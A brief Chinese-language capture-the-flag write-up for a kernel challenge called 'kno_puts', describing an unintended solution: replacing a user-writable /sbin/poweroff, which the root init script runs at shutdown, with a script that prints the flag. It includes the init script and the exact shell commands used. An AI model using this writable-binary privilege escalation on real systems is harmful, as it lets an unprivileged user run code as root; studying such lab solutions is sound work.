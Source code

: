 # kno_puts

文件系统权限没设置好，非预期了。root启动`init`脚本，随后以1000身份将shell暴露给用户，
在shell运行结束后执行`poweroff`。结果`poweroff`是可写的，将其替换为`cat /flag` 后`exit`就可以拿flag

```bash
# /init
...
chmod 400 flag
insmod /test.ko
mknod -m 666 /dev/ksctf c `grep ksctf /proc/devices | awk '{print $1;}'` 0 
setsid /bin/cttyhack setuidgid 1000 /bin/sh 
poweroff -d 600 -f
```

```bash
$ which poweroff
/sbin/poweroff
$ ls -ld sbin 
drwxr-xr-x    2 1000     1000          1480 Sep 26 04:41 sbin
$ ls -l sbin/poweroff  
lrwxrwxrwx    1 1000     1000            14 Sep 26 18:02 sbin/poweroff -> ../bin/busybox
$ rm sbin/poweroff
$ echo 'cat /flag' > /sbin/poweroff
$ chmod +x /sbin/poweroff
$ exit
```

![flag](assets/kerFlag.png)

> 预期解好像考到缺页错误引发的暂停，有点超出我的知识范畴了

